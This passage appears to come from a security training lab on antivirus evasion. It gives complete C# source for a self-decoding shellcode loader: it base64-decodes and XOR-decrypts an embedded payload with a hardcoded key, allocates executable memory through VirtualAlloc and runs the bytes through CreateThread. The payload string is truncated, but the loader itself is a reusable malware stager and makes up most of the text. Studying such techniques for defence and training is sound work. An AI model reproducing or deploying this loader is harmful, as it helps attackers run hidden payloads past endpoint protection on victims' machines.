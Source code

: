 ### Self-decoding Payload

Since we have an encoded payload, we need to adjust our code so that it decodes the shellcode before executing it. To match the encoder, we will decode everything in the reverse order we encoded it, so we start by decoding the base64 content and then continue by XORing the result with the same key we used in the encoder. Here's the full payload code (you can also get it in your Windows machine at `C:\Tools\CS Files\EncStageless.cs)`:

```
using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```
